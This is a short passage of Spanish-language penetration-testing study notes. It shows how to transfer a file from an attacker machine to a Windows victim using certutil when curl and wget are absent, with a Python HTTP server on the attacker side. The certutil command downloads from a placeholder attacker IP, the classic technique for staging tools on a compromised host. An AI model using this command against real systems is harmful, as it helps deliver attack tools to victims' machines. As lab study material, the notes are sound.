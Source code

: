 - Que pasa si en un windows no tenemos las herramientas `curl` y `wget`?
	- Vamos a utilizar la herramienta `certutil` 
- El comando para usar esta herramienta seria:
```
certutil -split -urlcache -f http://(IP ATACANTE)/ELARCHIVOQUE_QUEREMOS_COMPARTIR EL_NOMBRE_QUE_QUEREMOS_DARLE_AL_ARCHIVO.
```

- Vamos a crear un archivo vacío en la maquina atacante, usaremos el comando `touch` .
![[Pasted image 20241211200500.png]]
- Vamos a levantar nuestra pagina http con el comando:
```
python3 -m http.server 80
```
- Vamos a la maquina victima y usamos la herramienta `certutil` .
![[Pasted image 20241211200816.png]]
- Estará cargando y nos saldrá esto:
![[Pasted image 20241211200853.png]]
